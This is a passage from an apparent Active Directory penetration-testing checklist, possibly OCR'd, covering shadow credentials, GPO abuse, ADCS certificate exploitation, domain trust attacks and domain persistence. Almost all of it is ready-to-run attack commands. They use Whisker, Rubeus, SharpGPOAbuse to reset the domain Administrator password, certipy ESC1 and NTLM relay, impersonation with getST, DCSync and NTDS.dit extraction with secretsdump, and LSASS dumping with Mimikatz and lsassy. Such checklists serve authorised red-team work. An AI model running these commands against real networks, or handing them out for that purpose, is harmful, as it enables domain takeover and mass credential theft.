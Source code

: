   ```bash
  # Add shadow credentials with Whisker
  Whisker.exe add /target:TargetUser /domain:domain.local /dc:DC_IP
  
  # Request TGT with certificate
  Rubeus.exe asktgt /user:TargetUser /certificate:MIIJmAIB... /password:SecretPass /domain:domain.local /dc:DC_IP
  ```

### Group Policy Object (GPO) Abuse
- [ ] Abuse vulnerable GPOs
  ```powershell
  SharpGPOAbuse.exe --AddComputerTask --Taskname "Update" --Author DOMAIN\<USER> --Command "cmd.exe" --Arguments "/c net user Administrator Password123 /domain" --GPOName "VULNERABLE GPO"
  ```

### ADCS Exploitation
- [ ] Find vulnerable certificate templates
  ```bash
  certipy find -u user@domain.local -p password -dc-ip <DC_IP>
  ```
- [ ] ESC1 exploitation (User authentication template)
  ```bash
  certipy req -u user@domain.local -p password -ca 'CA-NAME' -template 'User' -dc-ip <DC_IP>
  ```
- [ ] Obtain PFX certificate via NTLM relay
  ```bash
  certipy relay -target 'http://CA.domain.local'
  ```

### Trust Relationship Attacks
- [ ] Enumerate domain trusts
  ```bash
  nltest /domain_trusts
  Get-ADTrust -Filter *
  ```
- [ ] Exploit SID filtering issues
  ```bash
  getST.py -spn cifs/target.domain.local -impersonate Administrator domain.local/user:password
  ```

## 9. Domain Persistence

### Credential Access & Dumping
- [ ] DCSync attack (with appropriate rights)
  ```bash
  secretsdump.py domain/user:password@target
  ```
- [ ] Extract NTDS.dit
  ```bash
  # Volume Shadow Copy method
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\system
  
  # Extract hashes
  secretsdump.py -ntds ntds.dit -system system LOCAL
  ```
- [ ] Dump LSASS memory
  ```powershell
  # Mimikatz
  sekurlsa::logonpasswords
  
  # Lsassy
  lsassy -d domain.local -u user -p password <target>
  ```